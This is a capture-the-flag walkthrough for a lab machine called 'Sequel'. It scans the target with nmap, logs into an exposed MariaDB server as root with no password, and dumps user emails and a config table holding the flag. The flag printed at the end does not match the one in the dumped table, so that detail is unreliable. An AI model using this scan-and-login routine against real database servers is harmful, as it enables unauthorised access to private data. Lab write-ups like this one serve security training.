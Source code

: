 ```yaml
---
layout: default
title: Sequel
---
```


we start with `nmap`, using this command, i didn't use `-p-` and also `-sV`, because it takes to much time, used only `-sC` :
```bash
nmap -sC --min-rate=10000 $target
```

![nmap](image-1.png)

As you can see, port `3306`, which has *mysql* service, is opened.

```
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 151
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, FoundRows, Speaks41ProtocolNew, InteractiveClient, IgnoreSigpipes, SupportsTransactions, SupportsCompression, LongColumnFlag, Support41Auth, SupportsLoadDataLocal, ODBCClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: q1<{v_Y~2x)_'@OKjS@(
|_  Auth Plugin Name: mysql_native_password
```

We try to connect to the *mysql* using `root` username, and hope we won't need to provide password, `-h` stands for host, `-u` is username, `-P` is port, and i also disabled the verification of the ssl, because it causes problems:
```bash
mysql -h $target -u root -P 3306 --skip-ssl-verify-server-cert
``` 

![mysql](image.png)

Okay, so first let's view the databased using `show databases;`
```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (1.449 sec)
```

Now, let's use `htb` table, using `use htb;`, and then show the tables in this database, using `show tables;`
```
MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.170 sec)
```

Okay, now we want to fetch all the data from `users` table, using `select * from users;`:
```
MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.211 sec)
```

The flag isn't here, so let's fetch the data from `config` table, using `select * from config;`:
```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.255 sec)
```

And we find the flag.

![flag](image-2.png)

**Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
